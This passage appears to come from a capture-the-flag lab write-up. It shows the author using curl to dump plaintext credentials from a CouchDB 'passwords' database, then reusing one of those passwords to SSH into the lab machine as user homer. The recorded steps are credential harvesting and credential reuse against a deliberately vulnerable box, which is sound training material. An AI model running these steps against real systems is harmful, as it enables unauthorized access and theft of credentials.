 For each of these keys, we need to grab each document:
```bash
curl http://bartman:password@localhost:5984/passwords/<Document ID>
```

Here is the output:
```
curl http://bartman:password@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}

curl http://bartman:password@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc43800368d
{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}

curl http://bartman:password@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438003e5f
{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}

curl http://bartman:password@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438004738
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
```

Looks like we have a possible SSH password for homer (the one in document 739c5ebdf3f7a001bebb8fc4380019e4): ```0B4jyA0xtytZi7esBNGp```.  I am making the leap that this is homer's password because the two of the other entries seem to belong to him.  We can try it:
```bash
ssh homer@10.10.10.70 -p 65535
```

![SSH as homer](screenshots/10_ssh_as_homer.PNG)

The user flag is in the home directory: